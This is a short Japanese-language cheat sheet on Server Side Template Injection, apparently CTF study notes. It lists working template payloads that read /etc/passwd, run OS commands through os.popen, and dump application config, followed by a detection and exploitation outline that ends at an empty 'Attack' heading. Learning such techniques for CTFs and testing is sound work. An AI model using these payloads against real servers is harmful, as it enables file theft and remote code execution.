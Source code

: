# Server Side Template Injection

## サーバ内ファイルの読み込み

- 既にサーバ上にあるフラグファイルへのパスが判明している場合
- OS コマンドが実行できない場合

### 実際の例

- テンプレート内で文字ではなくコードとして評価されるよう`{{...}}`で囲む
- `{{request.form.get.__globals__['__builtins__']['open']('/etc/passwd').read()}}`

## os コマンドの実行

- `{{request.form.get.__globals__['__builtins__']['__import__']('os').popen('id').read()}}`

## config ファイルの取得

- `{{ config }}`
- `{{ config.items() }}`

## ブラックボックスでの見つけ方

- Detect
  - `{{ 1+1 }}`などでインジェクションの有無
- Identify
  - curl のレスポンスヘッダからサーバ側の技術スタックを調べる
    - `curl localhost:5000 -vvv`
  - [Black Hat p4](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)に記載の手順で実施
- Exploit
  - Read
    - テンプレートエンジンのドキュメントを読む
    - template authors
      - 基本構文や機能を確認
    - security consideration
      - セキュリティに関する考慮事項
      - 脆弱性や防御の抜け道
    - 組み込みメソッド・関数・フィルタ・変数のリスト
      - 利用可能な標準機能
    - エクステンションやプラグインのリスト
      - デフォルトで有効化されているもののチェック
  - Explore
    - 自己参照オブジェクトや名前空間オブジェクトを探す(self, namespace)
    - 利用可能なメソッドを列挙(`self.__class__.__mro__`, `namespace.items()`など)
    - 変数名のブルートフォース s
  - Attack

